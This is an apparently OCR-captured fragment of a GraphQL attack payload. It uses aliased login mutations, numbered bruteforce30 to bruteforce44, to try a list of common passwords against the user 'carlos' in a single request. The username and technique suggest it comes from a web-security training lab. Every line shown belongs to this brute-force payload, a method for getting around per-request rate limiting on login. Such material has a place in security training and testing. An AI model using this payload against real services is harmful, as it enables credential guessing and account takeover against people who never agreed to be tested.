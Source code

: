 ```
        token
        success
    }
    bruteforce30: login(input: { password: "qazwsx", username: "carlos" }) {
        token
        success
    }
    bruteforce31: login(input: { password: "123qwe", username: "carlos" }) {
        token
        success
    }
    bruteforce32: login(input: { password: "killer", username: "carlos" }) {
        token
        success
    }
    bruteforce33: login(input: { password: "trustno1", username: "carlos" }) {
        token
        success
    }
    bruteforce34: login(input: { password: "jordan", username: "carlos" }) {
        token
        success
    }
    bruteforce35: login(input: { password: "jennifer", username: "carlos" }) {
        token
        success
    }
    bruteforce36: login(input: { password: "zxcvbnm", username: "carlos" }) {
        token
        success
    }
    bruteforce37: login(input: { password: "asdfgh", username: "carlos" }) {
        token
        success
    }
    bruteforce38: login(input: { password: "hunter", username: "carlos" }) {
        token
        success
    }
    bruteforce39: login(input: { password: "buster", username: "carlos" }) {
        token
        success
    }
    bruteforce40: login(input: { password: "soccer", username: "carlos" }) {
        token
        success
    }
    bruteforce41: login(input: { password: "harley", username: "carlos" }) {
        token
        success
    }
    bruteforce42: login(input: { password: "batman", username: "carlos" }) {
        token
        success
    }
    bruteforce43: login(input: { password: "andrew", username: "carlos" }) {
        token
        success
    }
    bruteforce44: login(input: { password: "tigger", username: "carlos" }) {
        token
        success
    }
```